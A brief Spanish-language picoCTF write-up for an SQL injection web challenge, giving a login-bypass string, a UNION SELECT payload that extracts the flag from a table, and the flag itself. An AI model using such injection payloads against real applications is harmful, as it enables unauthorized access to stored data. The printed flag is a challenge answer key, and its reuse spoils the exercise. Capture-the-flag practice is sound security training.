 #### - **Descripción** 

¿Puedes encontrar la bandera en este sitio web?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.
¿Puedes encontrar la bandera en este sitio web?Intenta encontrar la bandera [aquí](http://saturn.picoctf.net:50537/) .

**Pista**
SQLiLite

#### - **Solución** 
juna' or 1=1;
Password

' UNION SELECT flag, null, null from more_table;--

|                                                         |     |
| ------------------------------------------------------- | --- |
| picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a} |     |
